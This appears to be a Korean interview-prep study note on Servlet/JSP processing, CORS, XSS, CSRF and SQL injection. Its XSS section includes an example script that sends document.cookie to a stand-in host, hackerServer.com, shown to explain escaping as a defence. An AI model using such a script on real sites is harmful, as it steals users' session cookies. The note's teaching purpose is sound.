 ## Servlet이란 어떤 것인지

### Servlet에서 리퀘스트(요청)를 받으면 서블릿에 있는 어떤 메서드들이 호출되는지 설명하라 

## Servlet의 생명주기에 대해 설명하라 

## Servlet이 호출될 때 처리 과정이 어떻게 되는가? 

## JSP 동작 과정에서 Servlet이 어떻게 사용되는지 설명하라. 

### JSP 처리 과정

<details>
<summary>생각해보고 답 확인</summary>

웹 브라우저에 JSP 페이지에 해당하는 URL을 입력하면, 톰캣 서버는 다음과 같은 과정을 거쳐 JSP 페이지를 실행한다.

!https://velog.velcdn.com/images%2Fjsj3282%2Fpost%2Fe078fef3-616e-4023-ab9e-d828e750f79a%2F%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png

WAS는 JSP 페이지에 대한 요청이 들어오면 다음과 같은 처리를 한다.

JSP에 해당하는 서블릿이 존재하지 않을 경우(과정 1.1)

- JSP 페이지로부터 자바 코드를 생성한다. (과정 1.2)
- 자바 코드를 컴파일해서 서블릿 클래스를 생성한다. (과정 1.3)
- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

JSP에 해당하는 서블릿이 존재하는 경우(즉, 이미 과정 1.1~1.3을 거친 경우)

- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

즉, JSP 페이지를 요청할 때에는 JSP를 직접 실행하는 것이 아니라, JSP를 자바 소스 코드로 변환한 뒤 컴파일해서 생성한 서블릿을 생성하는 것이다. 여기서 JSP 페이지를 자바 코드로 변경하는 단계를 "변환(translation)단계"(과정 1.2)라고 하며, 자바 코드를 서블릿 클래스로 변경하는 단계를 "컴파일(compile)단계"(과정 1.3)라고 한다.

톰캣은 work 폴더에 JSP를 변환한 자바 소스 코드와 서블릿 클래스를 생성한다. 예를 들어, 앞서 3장에서 실행했던 JSP의 자바 소스 코드와 서블릿 클래스는 다음 폴더에서 찾을 수 있다.

```
C:\apache-tomcat-8.0.2\work\Catalina\localhost\chap03\org\apache\jsp
```

위 폴더를 보면 JSP 파일을 자바 코드로 변환한 소스 코드와 컴파일된 클래스 파일을 발견할 수 있다.

JSP 페이지를 변경하면 JSP 페이지는 기존에 이미 서블릿이 생성되었는지에 상관없이 위의 과정을 거쳐 JSP 페이지로부터 서블릿 클래스를 다시 생성한다.

> JSP를 실행한다는 말은 곧 JSP 페이지를 컴파일한 결과인 서블릿 클래스를 실행한다는 의미가 된다.
>

</details>

 ### 1. 서블릿(Servlet)이란?

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/de3307b6-2fa2-411d-93e8-eaa763f1b98e" width="550" height="300"/>

 - 동적 웹 페이지를 만들 때 사용되는 자바 기반의 웹 애플리케이션 프로그래밍 기술이다. 
 
 - 서블릿은 웹 요청과 응답의 흐름을 간단한 메서드 호출만으로 체계적으로 다룰 수 있게 해준다.

   ※ 서블릿은 서버에서 실행되다가 웹 브라우저에서 요청을 하면 해당 기능을 수행한 후 웹 브라우저에 결과를 전송한다.

▶ 서블릿(Servlet)의 주요 특징
- 클라이언트의 Request에 대해 동적으로 작동하는 웹 어플리케이션 컴포넌트
- 기존의 정적 웹 프로그램의 문제점을 보완하여 동적인 여러 가지 기능을 제공
- JAVA의 스레드를 이용하여 동작
- MVC패턴에서 컨트롤러로 이용됨
- 컨테이너에서 실행
- 보안 기능을 적용하기 쉬움


### 2. 서블릿의 동작과정

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/99135836-2f0e-4c04-b1a7-5eaf65f6b423" width="550" height="300"/>

클라이언트가 웹 서버에 요청하면 / 웹 서버는 그 요청을 톰캣과 같은 [WAS]에 위임한다. / 그러면 WAS는 각 요청에 해당하는 서블릿을 실행한다. / 그리고 서블릿은 요청에 대한 기능을 수행한 후 결과를 반환하여 클라이언트에 전송한다.

```
1. 클라이언트 요청
2. HttpServletRequest, HttpServletResponse 객체 생성
3. Web.xml이 어느 서블릿에 대해 요청한 것인지 탐색
4. 해당하는 서블릿에서 service() 메소드 호출
5. doGet() 또는 doPost() 호출
6. 동적 페이지 생성 후 ServletResponse 객체에 응답 전송
7. HttpServletRequest, HttpServletResponse 객체 소멸
```

※ web.xml : 서블릿을 작성했다면 / 해당 서블릿을 사용자가 요청한 경로와 맵핑시켜야 / WAS에서 맵핑된 정보를 읽어서 브라우저에서 해당 URL로 HTTP요청 시 / 해당 서블릿으로 요청을 전달해 줄 수 있다. 소스를 분석할 때도 가장 먼저 확인해봐야 할 부분이다. 톰캣을 예로 들면 웹 어플리케이션 서비스 처리에 대해 정의된 환경 설정 파일이 server디렉터리의 web.xml에 있다.

### ▶ 서블릿 형식

```java
public class FirstServlet extends HttpServlet {
	@Override
    public void init() {
    ...
	}

    @Override
    public void doGet(HttpServletRequest req, HttpServletResponse resp) {
    ...
    }

    @Override
    public void destroy() {
    ...
    }
}
```

### 3. 서블릿 생명주기

서블릿도 자바 클래스이므로 실행하면 [ 초기화부터 서비스 수행 후 소멸하기까지의 과정을 거친다.] 

이 과정을 서블릿의 생명주기라하며 각 단계마다 **호출되어 기능을 수행하는 콜백 메서드**를 서블릿 생명주기 메서드라한다.

1. 클라이언트의 요청이 들어오면  / 컨테이너는 해당 서블릿이 메모리에 있는지 확인하고, 없을 경우 init()메서드를 호출하여 메모리에 적재한다. init()은 처음 한번만 실행되기 때문에, 서블릿의 스레드에서 공통적으로 사용해야 하는 것이 있다면 오버라이딩 하여 구현하면 된다. 실행 중 서블릿이 변경될 경우, 기존 서블릿을 destroy()하고 init()을 통해 새로운 내용을 다시 메모리에 적재한다.

2. init()이 호출된 후 클라이언트의 요청에 따라서 service() 메소드를 통해 요청에 대한 응답이 doGet()과 doPost()로 분기된다. 이 때 서블릿 컨테이너가 클라이언트의 요청이 오면 가장 먼저 처리하는 과정으로 생성된 HttpServletRequest, HttpServleResponse에 의해 request와 response 객체가 제공된다.

3. 컨테이너가 서블릿에 종료 요청을 하면 destroy() 메소드가 호출되는데 마찬가지로 한번만 실행되며, 종료시에 처리해야 하는 작업들은 destroy() 메소드를 오버라이딩하여 구현하면 된다.

### ▶ 서블릿 생명주기 < 메서드 >

**초기화 : init()**

- 서블릿 요청 시 맨 처음 한 번만 호출된다.
- 서블릿 생성 시 초기화 작업을 주로 수행한다.

**작업 수행 : doGet(), doPost()**

- 서블릿 요청 시 매번 호출된다.
- 실제로 클라이언트가 요청하는 작업을 수행한다.

**종료 : destroy()**

- 서블릿이 기능을 수행하고 메모리에서 소멸될 때 호출된다.
- 서블릿의 마무리 작업을 주로 수행한다.

### 4. 서블릿 컨테이너

- 서블릿 컨테이너란, 구현되어 있는 servlet 클래스의 규칙에 맞게 서블릿을 담고 관리해주는 컨테이너다.

- 클라이언트에서 요청을 하면 컨테이너는 HttpServletRequest, HttpServletResponse 두 객체를 생성하여 post, get여부에 따라 동적인 페이지를 생성하여 응답을 보낸다.



## CORS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 브라우저 환경에서만 적용되며 한 출처가 다른 출처에 요청을 할 수 있도록 하는 보안 메커니즘

- 모든 브라우저는 단일 출처 정책(Single Origin Policy)을 따른다

- 즉, 기본적으로 다른 출처에 요청할 수 없지만 서버가 적절하게 구성된 CORS 헤더를 제공하는 경우 선택적으로 교차 출처 정책을 사용할 수 있습니다.

 ### 브라우저에서만 적용된다는 말은 무슨 말인가?
 
- 브라우저에서 다른 서버에서 요청할 경우에 해당되고, 브라우저를 거치지 않고 **서버 간 통신**을 할 때는 이 정책이 적용되지 않는다.

### 단일 출처 정책(Single Origin Policy)이 무엇인가?

- **origin(출처)** 이란 scheme(protocol), host(domain), port 로 구성

- 예를들어, https://www.google.com/maps 라는 주소가 있다고하면 [ protocol은 https:// ] [ Host는 www.google.com ] [ Port는 :443 ]

- 동일 출처(Same Origin) 란 scheme, host, port 가 모두 같을때를 말한다.

- SOP(Same-Origin Policy) 이란 같은 출처에서만 리소스를 공유할 수 있다는 규칙

### 다른 origin에 있는 리소스를 허용하지 않는 이유는 무엇인가?

- ( = 이런 정책이 왜 존재할까?) 만약 다른 출처의 어플리케이션이 서로 통신하는 것에 대해 아무런 제약도 존재하지 않는다면 악의를 가진 사용자가 소스 코드를 보고 CSRF(Cross-Site Request Forgery)나 XSS(Cross-Site Scripting)와 같은 방법을 사용하여 정보를 탈취할 수 있다.

- CORS는 다른 출처의 리소스가 필요한 경우, SOP를 우회하기 위한 여러가지 방법 중 가장 권장되는 방법이다.

https://chanto11.tistory.com/67

https://ingg.dev/cors/

</details>




------
## XSS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 공격자가 클라이언트 측 스크립트를 웹 페이지에 삽입하는 공격

- XSS 를 사용하여 동일 출처 정책 및 CSRF 보호를 모두 우회 할 수 있습니다.

- 사용자가 웹 사이트를 방문 할 때마다 트리거되고 이는 서버를 손상시킬 수 있습니다.

- XSS 는 가장 일반적으로 악용되는 취약점입니다.

- XSS 는 출력부분에서 가장 잘 처리할 수 있습니다.

[ 입력 -> 데이터베이스 -> **출력(이스케이프 처리)** ]

### esacpe를 처리한다 라는 말을 들어보았는가? 이게 어떤걸 말하는가?

특정 문자를 원래의 기능에서 벗어나게 변환하는 행위를 **이스케이프(Escape)** 라고 한다.

 HTML에서 다음과 같은 상황은 렌더링이 되지 않는다.  ->  <div>  <onlydev     </div> 
  
HTML은 '<'을 태그의 시작으로 인식하기 때문에 뒷부분이 에러가 나서 제대로 렌더링이 되지 않는다. 이런 상황들을 고려해 원래의 기능에서 벗어난 문자열로 변환하여 의도대로 구문 분석을 하도록 이스케이프를 한다.     ->  <div>     &lt;onlydev      </div>

**그런데 이스케이프가 어떻게 XSS 공격을 방지할 수 있을까?** 

크로스 사이트 스크립팅 공격은 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 **스크립트**를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

예를 들어 글을 쓸 때

1. 제목과 글을 입력해서 글쓰기를 클릭하면
2. 웹 서버에선 해당 데이터를 받아서 DB에 저장한다.
3. 다른 사용자가 해당 서버에 접속해 DB에 있는 해당 글을 읽게 되면
4. 그 때 써놓은 내용을 볼 수 있다.

이런 과정에서 글 대신 **스크립트 언어**를 써서 다른 사용자가 해당 글을 읽을 때 **스크립트 언어가 실행**되어 피해를 입게 하는 것이 XSS 공격이다.
```
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

해당 스크립트 코드가 실행 되면 피해자의 쿠키값을 해커의 서버 주소인 http://hackerServer.com에 그대로 전부 보내게 되고 해당 정보를 이용해 악용할 수 있는 것이다. 

```
<!-- 이스케이프 후  -->
&lt;script&gt;
  let xmlHttp = new XMLHttpRequest();
  const url =
    &quot;http://hackerServer.com?victimCookie=&quot; +
    document.cookie;
  xmlHttp.open(&quot;GET&quot;, url);
  xmlHttp.send();
&lt;/script&gt;
```

렌더링이 되기 전(사용자에게 보이기 전) 이스케이프된 모든 값은 브라우저에선 아래와 같이 입력한 그대로 보이게 되지만 HTML 본연의 태그나 스크립트 기능이 제거가 되기 때문에 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

```
<!-- 이스케이프 후 브라우저에서 보이는 화면-->
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

https://wikidocs.net/127508

https://onlydev.tistory.com/78

### **■ 공격 유형에 따른 분류**

공격자가 삽입한 악성스크립트가 사용자 측에서 어떻게 동작하는지에 따라 크게 세 가지로 분류할 수 있으며 각각의 개념과 동작 과정은 다음과 같다.


### **Stored XSS (저장형 크로스사이트 스크립팅)**

공격자의 악성스크립트가 데이터베이스에 저장되고 이 값을 출력하는 페이지에서 피해가 발생하는 취약점이다.

공격자는 악성스크립트가 포함된 게시물을 작성하여 게시판 등 사용자가 접근할 수 있는 페이지에 업로드한다. 이때 사용자가 악성스크립트가 포함된 게시물을 요청하면, 공격자가 삽입한 악성스크립트가 사용자 측에서 동작하게 된다.

공격자의 악성스크립트가 서버에 저장되어 불특정 다수를 대상으로 공격에 이용될 수 있어 Reflected XSS보다 공격 대상의 범위가 훨씬 크다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/68792e47-656d-47ff-b529-9e0f6f6b4777" width="500" height="300"/>
  
[Stored XSS]

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/46b79afb-568a-4364-926d-5479bb3ff3da" width="400" height="300"/>

Stored XSS 공격 과정은 다음을 통해 확인할 수 있다.

[Stored XSS 공격 과정]


### **Reflected XSS (반사형 크로스사이트 스크립팅)**

사용자가 요청한 악성스크립트가 사용자 측에서 반사(Reflected)되어 동작하는 취약점으로, 공격자의 악성스크립트가 데이터베이스와 같은 저장소에 별도로 저장되지 않고 사용자의 화면에 즉시 출력되면서 피해가 발생한다.

공격자는 악성스크립트가 포함된 URL을 이메일, 메신저 등을 통해 사용자가 클릭할 수 있도록 유도한다. 사용자가 악성스크립트가 삽입된 URL을 클릭하거나 공격자에 의해 악의적으로 조작된 게시물을 클릭했을 때 사용자의 브라우저에서 악성스크립트가 실행된다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/7fd0cd4a-127f-4e92-b672-735dd669aaf4" width="500" height="300"/>


[Reflected XSS]

Reflected XSS 공격 과정은 다음을 통해 확인할 수 있다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/fada8137-1912-4d96-8d54-44b8f244752b" width="400" height="300"/>

[Reflected XSS 공격 과정]


### **DOM Based XSS (DOM 기반 크로스사이트 스크립팅)**

공격자의 악성스크립트가 DOM 영역에서 실행됨으로써 서버와의 상호작용 없이 브라우저 자체에서 악성스크립트가 실행되는 취약점이다. DOM 영역에 변화가 생기면 브라우저는 서버로 패킷을 보내지 않고 DOM 영역에서 페이지를 변환시킨다. 따라서 DOM의 일부로 실행되기 때문에 브라우저 자체에서 악성스크립트가 실행된다.

- DOM(Document Object Model, 문서 객체 모델) 이란?

브라우저가 웹 페이지를 렌더링 하는데 사용하는 모델로 HTML 및 XML 문서에 접근하기 위한 인터페이스이다. 브라우저는 HTML 문서를 읽고 해석한 결과를 DOM 형태로 재구성하여 사용자에게 제공한다.

</details>


------
## CSRF란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 해서 특정 웹 페이지를 보안에 취약하게 하거나 수정, 삭제 등의 작업을 하게 만드는 공격 방법.

- 공격 난이도가 높지 않아 흔히 사용된다.

- XSS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면,

- CSRF는 특정 웹사이트가 사용자의 웹 브라우저를 신용하는 상태를 노린 것이다.

https://devscb.tistory.com/123

### **1.2. CSRF 전제 조건과 공격 과정**

CSRF 공격을 위한 조건과 과정에 대해 알아보겠습니다. CSRF 공격을 시도하기 위해선 아래와 같은 몇 가지 조건이 필요합니다.

- 사용자가 보안이 취약한 서버로부터 이미 인증을 받은 상태여야 합니다.
- 쿠키 기반으로 서버 세션 정보를 획득할 수 있어야 합니다.
- 공격자는 서버를 공격하기 위한 요청 방법에 대해 미리 파악하고 있어야 합니다. 예상치 못한 파라미터가 있으면 불가능합니다.

위와 같은 조건이 만족되면 다음과 같은 과정을 통해 CSRF 공격이 수행됩니다.

1. 사용자는 보안이 취약한 서버에 로그인합니다.
2. 로그인 이후 서버에 저장된 세션 정보를 사용할 수 있는 `sessionID`가 사용자 브라우저 쿠키에 저장됩니다.
3. 공격자는 서버에 인증된 브라우저의 사용자가 악성 스크립트 페이지를 누르도록 유도합니다.
    - 해당 악성 스크립트가 담긴 페이지를 클릭하도록 유도하는 방법은 다양한 것 같으나 몇 가지 유형을 정리하자면 다음과 같습니다.
    - 게시판에 악성 스크립트를 게시글로 작성하여 관리자 혹은 다른 사용자들이 게시글을 클릭하도록 유도합니다.
    - 메일 등으로 악성 스크립트를 직접 전달하거나, 악성 스크립트가 적힌 페이지 링크를 전달합니다.
4. 사용자가 악성 스크립트가 작성된 페이지 접근시 쿠키에 저장된 `sessionID`는 브라우저에 의해 자동적으로 함께 서버로 요청됩니다.
5. 서버는 쿠키에 담긴 `sessionID`를 통해 해당 요청이 인증된 사용자로부터 온 것으로 판단하고 처리합니다.

### CSRF를 방어하는 방법이 무엇이 있는지 설명하라

**Referrer 검증**

서버에서 사용자의 요청에 `Referrer` 정보를 확인하는 방법이 있습니다. 요청 헤더(request header) 정보에서 `Referrer` 정보를 확인할 수 있습니다. 보통이라면 호스트(host)와 `Referrer` 값이 일치하므로 둘을 비교합니다. CSRF 공격의 대부분 `Referrer` 값에 대한 검증만으로 방어가 가능하다고 합니다.

 **CSRF 토큰 검증**

임의의 CSRF 토큰을 만들어 세션에 저장합니다. 요청하는 페이지에 `hidden` 타입 input 태그를 이용해 토큰 값을 함께 전달합니다. 이후 서버에서 세션에 저장된 CSRF 토큰 값과 요청 파라미터에 담긴 토큰 값을 비교합니다

 **Double Submit Cookie 검증**

브라우저의 `Same Origin 정책`을 이용합니다. `Same Origin`이 아닌 경우 `JavaScript`로 쿠키 값을 확인하거나 수정하지 못한다는 점을 이용한 검증 방법입니다. 클라이언트(브라우저)에서 `JavaScript`로 임의의 생성한 토큰을 쿠키와 요청 헤더에 각각 담아서 서버에게 전달합니다. 서버는 전달받은 쿠키와 요청 헤더에서 각자 토큰 값을 꺼내어 이를 비교합니다. 이때, 쿠키에 저장된 토큰 정보는 이후에 재사용하지 못하도록 만료 처리합니다.

</details>




------
## SQL Injection이란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- SQL Injection은 사용자의 입력값이 서버측에서 코드로 실행되는 '코드 인젝션'  공격 기법 중 하나이며, 서버의 데이터베이스를 대상으로 하는 공격이다.

- 사용자 입력값을 제대로 필터링, 이스케이프 하지 않아 발생한다

- 공격의 핵심은 클라이언트 측에서 SQL 쿼리에 신뢰할 수 없는 데이터가 입력되었을 때, 데이터가 쿼리 로직의 일부로 해석되어 DB에서 실행될 때 발생한다.

### 공격 목적

SQL Injection 공격 목적은 다음과 같다. SQL 구문에 추가 절을 삽입하게 되면 쿼리의 의미가 변경되고 의도하지 않은 데이터의 유출, 변조가 가능하다.

1. 정보 유출(Information Leakage)

2. 저장된 데이터 유출 및 조작(Disclosure & Manipulation of stored Data)

3. 원격 코드 실행(Remote Code Excution)
    일부 데이터베이스의 경우 확장 프로시저를 이용하여 원격으로 시스템 명령의 실행이 가능하다. 시스템 명령의 실행은 원격 자원 접근 및 데이터 유출, 삭제가 가능하다.

4. 인증 우회(Bypassing authorisation controls)
    공격의 대표적인 경우로 로그인 폼 등에서 발생한다. 상위 권한을 가진 사용자의 권한으로 인증 절차를 우회하여 로그인 정보 없이 로그인할 수 있다.

https://gomguk.tistory.com/118

</details>

